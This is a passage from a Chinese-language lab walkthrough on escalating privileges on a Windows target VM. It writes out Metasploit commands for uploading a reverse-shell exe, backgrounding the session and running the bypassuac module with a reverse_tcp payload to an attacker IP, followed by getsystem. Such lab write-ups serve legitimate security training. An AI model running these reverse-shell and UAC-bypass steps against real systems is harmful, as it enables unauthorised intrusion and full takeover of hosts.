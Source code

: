 6. 将exe文件通过各种方式(比如通过此靶机的3389，远程桌面直接cv上传)上传至目标主机，并成功执行

   ![上传exe](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281626627.png)

7. kali成功接收到反弹shell

   ![成功反弹zhell](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281625736.png)

#### (2). 正式操作

1. 成功获取shell之后，通过`getuid`查看权限

   ![getuid查看权限](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281628160.png)

2. 尝试利用msf的getsystem提权，显示失败

   ```
   getsystem
   ```

   ![getsystem提权](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281628256.png)

3. 将目前的sessions放到后台运行

   ```
   background
   ```

   ![保存session](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281629010.png)

   显示保存为session 1，后面使用该值

4. 使用相应的模块

   ```
   use exploit/windows/local/bypassuac
   ```

   ![选择模块](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281518955.png)

5. 设置相应的参数

   ```
   set payload windows/meterpreter/reverse_tcp
   set lhost 192.168.71.50		#设置攻击机ip
   set session 1				#指向刚才后台运行的session
   exploit						#执行该次操作
   ```

​									![对参数进行设置](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281633601.png)

运行后发现，后台生成了一个新的session2

6. 进入新的session2后，使用`getuid`查看当前的权限，仍然为普通权限

   ![查看session2](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281637965.png)

7. 在session2中，使用`getsystem`提权，并查看权限，成功提权

